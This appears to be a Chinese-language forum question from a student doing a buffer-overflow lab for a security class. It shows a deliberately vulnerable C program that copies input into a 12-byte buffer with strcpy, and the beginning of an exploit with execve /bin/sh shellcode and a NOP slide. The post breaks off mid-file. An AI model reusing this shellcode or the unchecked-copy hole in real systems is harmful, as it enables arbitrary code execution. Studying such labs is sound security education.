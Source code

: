 仍在为安全类学习此缓冲区溢出内容，我正在尝试利用此应用程序中的漏洞：

```
//vuln.c
#include <stdio.h>

int bof(char *str)
{
     char buffer[12];

     //BO Vulnerability
     strcpy(buffer,str);

     return 1;
}

int main(int argc, char* argv[])
{
     char str[517];

     FILE *badfile;
         badfile = fopen("badfile","r");

     fread(str, sizeof(char),517, badfile);
     bof(str);

     printf("Returned Properly\n");
     return 1;
} 
```

使用此漏洞利用应用程序：

```
//exploit.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

const char code[] =
"\x31\xc0"
"\x50"
"\x68""//sh"
"\x68""/bin"
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
"\x99"
"\xb0\x0b"
"\xcd\x80"
;

int main(int argc, char* argv[])
{
    char buffer[517];
    char large_string[512];
    FILE *badfile;
        badfile = fopen("./badfile", "w");

    //NOPslide
    memset(&buffer,0x90,517);

    //BEGIN FILL BUFFER
         //from stack_smashing.pdf
```